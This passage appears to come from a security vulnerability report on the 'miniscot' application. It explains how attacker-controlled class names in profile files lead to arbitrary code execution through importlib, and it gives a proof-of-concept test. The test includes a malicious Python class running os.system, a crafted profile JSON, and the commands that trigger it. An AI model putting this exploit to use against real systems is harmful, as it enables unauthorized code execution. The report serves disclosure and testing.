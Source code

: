     - The attacker must be able to provide a malicious profile file to the `miniscot` application. This can be achieved through exploiting the path traversal vulnerability (Vulnerability: Path Traversal in Profile Loading) or by directly replacing or modifying profile files if the attacker has write access to the file system.
- Source Code Analysis:
    ```python
    File: /code/src/scse/profiles/profile.py

    def instantiate_class(full_class_name, **parameters):
        last_dot = full_class_name.rindex('.')
        module_name = full_class_name[:last_dot]
        #logger.debug("module_name is {}".format(module_name))
        class_name = full_class_name[last_dot + 1:]

        module = importlib.import_module(module_name) # Line 1 - Module Import
        agent_class = getattr(module, class_name)     # Line 2 - Class Attribute Access
        agent_instance = agent_class(parameters)

        return agent_instance
    ```
    - **Line 1**: `importlib.import_module(module_name)` dynamically imports a Python module based on the `module_name` string, which is extracted from the `full_class_name` from the profile. If an attacker controls `full_class_name`, they can control which module is imported.
    - **Line 2**: `getattr(module, class_name)` retrieves a class attribute (class itself) from the imported module using the `class_name` string, also derived from the profile. Again, attacker control over `class_name` allows them to choose which class is accessed.
    - By controlling both `module_name` and `class_name` through a malicious profile, an attacker can import arbitrary modules and instantiate arbitrary classes available in the Python environment, leading to arbitrary code execution when the instance is created in `agent_instance = agent_class(parameters)`.

- Security Test Case:
    1.  Set up the miniSCOT environment.
    2.  Create a malicious Python module file named `malicious_module.py` in the `/code/src/scse/profiles/` directory (or any directory where Python can import from).
    3.  Inside `malicious_module.py`, define a class `MaliciousClass` with an `__init__` method that executes arbitrary code, for example:
        ```python
        # /code/src/scse/profiles/malicious_module.py
        import os

        class MaliciousClass:
            def __init__(self, config):
                os.system('touch /tmp/pwned') # Arbitrary command execution - creates file /tmp/pwned
                print("Malicious code executed!")
        ```
    4.  Create a malicious profile file, e.g., `malicious_profile.json`, in the `/code/src/scse/profiles/` directory, that uses the malicious module and class as a metric:
        ```json
        {
          "metrics": ["scse.profiles.malicious_module.MaliciousClass"],
          "modules": []
        }
        ```
    5.  Run the `miniscot` application using the malicious profile:
        ```bash
        miniscot -profile profiles/malicious_profile.json
        ```
    6.  Check if the arbitrary command was executed. In this example, check if the file `/tmp/pwned` was created:
        ```bash
        ls /tmp/pwned
        ```